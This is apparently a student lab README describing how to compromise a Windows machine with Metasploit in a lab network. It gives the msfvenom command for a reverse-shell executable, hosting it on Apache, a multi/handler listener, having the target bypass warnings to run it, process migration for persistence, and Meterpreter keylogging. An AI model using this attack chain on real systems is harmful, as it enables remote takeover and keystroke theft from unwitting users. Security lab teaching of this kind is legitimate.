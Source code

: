 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM : 

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/fbb38fbc-fd8b-456a-b160-c3282a7487ec)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT: 

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/7f21b4e8-f284-4e4f-918f-ef1633be8ba5)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/aeb54f70-ddad-41e8-8bf1-468d818a79bf)


Start apache server sudo systemctl apache2 start

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/9852fc70-71ef-451f-804d-5dd11f980d51)


Check the status of apache2

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/908c4672-1ddb-4333-9201-9fdfe4553ffe)

Invoke msfconsole:


## OUTPUT :

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/3fb8850c-78e4-43e6-b016-2f42b4df3068)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.


![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/1ec25415-0c4b-44e9-852f-6eac991582dc)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/69387c62-e65b-48fc-ae72-2911354c474d)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/b5c342b5-fd0e-4a44-b776-7075973f798c)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/fc6637fa-8282-4870-b8a4-7c9a3ba1643e)


keyscan_dump Shows the keystrokes captured so far


![image](https://github.com/priya672003/Compromising-windows-using-Metasploit/assets/81132849/dd5d84b1-de44-4e23-82c3-594d54c9e654)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
